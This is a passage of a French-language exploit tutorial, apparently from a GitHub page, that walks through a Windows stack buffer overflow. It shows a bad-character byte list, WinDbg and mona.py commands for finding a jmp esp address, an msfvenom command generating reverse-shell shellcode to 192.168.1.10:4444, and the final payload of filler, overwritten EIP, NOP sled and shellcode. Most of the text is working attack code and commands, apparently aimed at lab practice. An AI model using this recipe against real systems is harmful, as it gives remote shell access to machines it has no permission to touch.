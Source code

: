 ```python
    b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
    b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
    b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
    b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
    b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

```


Dans WinDbg :

```rust
dds esp
```


Inspecte si certains caractères sont tronqués/modifiés.

---

### 5️⃣ Localisation de l’adresse de retour (`jmp esp`)

Dans **mona.py** :

```rust
!mona jmp -r esp

```

Puis remplace `eip` par l’adresse trouvée (ex : `b"\xaf\x11\x50\x62"`).

---

### 6️⃣ Insertion du shellcode

Avec `msfvenom` :

```python
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -b "\x00" -f python
```

Dans le script Python :

```python
buf =  b"" buf += b"\xdb\xc0\xd9\x74\x24\xf4\x5a\x31\xc9\xb1\x52..."
```


Final payload :

```python
filler = b"A" * 780
eip    = b"\xaf\x11\x50\x62"  # jmp esp
offset = b"\x90" * 16         # NOP sled
payload = filler + eip + offset + buf

```

